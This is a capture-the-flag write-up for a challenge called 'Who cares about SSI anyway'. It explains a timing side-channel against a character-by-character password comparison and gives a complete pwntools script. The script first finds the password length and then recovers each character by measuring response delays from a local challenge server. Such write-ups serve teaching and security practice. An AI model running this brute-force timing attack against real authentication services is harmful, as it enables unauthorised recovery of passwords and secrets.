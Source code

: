 # Who cares about SSI anyway Writeup

This challenge can be solved using a timing attack. Here is a step-by-step explanation of the exploit:

## Understanding the Vulnerability

The system compares the input password with the correct flag character by character. It introduces a delay for each correct character, due to system capacities. This delay can be measured to infer the correct characters of the flag.

## Finding the Password Length

The solution first determines the length of the password by sending increasingly longer strings until the response changes from "Wrong length" to something else.

## Exploiting the Timing Attack

1. For each position in the password, the script tries every possible character from the charset.
2. It measures the time taken for the server to respond.
3. The character that causes the longest delay is likely the correct one for that position.
4. This process is repeated for each position in the password until the entire flag is found.

# Solution

```python
from pwn import *
import time

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}"

r = remote('localhost', 5000)
r.recvline()

print(f"[*] Finding password length...")
password_length = 0
for i in range(100):
    r.recvuntil(b'Your try? ')
    r.sendline(b'A' * i)
    if b'Wrong length' not in r.recvline():
        password_length = i
        break

if password_length == 0:
    print("[!] Password length not found")
    exit()
else:
    print(f"[+] Password length: {password_length}")

print("[*] Finding password...")
password = ["A"] * password_length
for i in range(password_length):
    tmp = [e for e in password]
    m = None
    for c in charset:
        r.recvuntil(b'Your try? ')
        tmp[i] = c
        r.sendline("".join(tmp).encode())
        now = time.time()
        res = r.recvline()
        t = time.time() - now
        print(f"[+] Trying: {''.join(tmp)} - {t}")
        if m is None or t > m[1]:
            m = (c, t)
    password[i] = m[0]
    print(f"[+] Password updated: {''.join(password)}")
```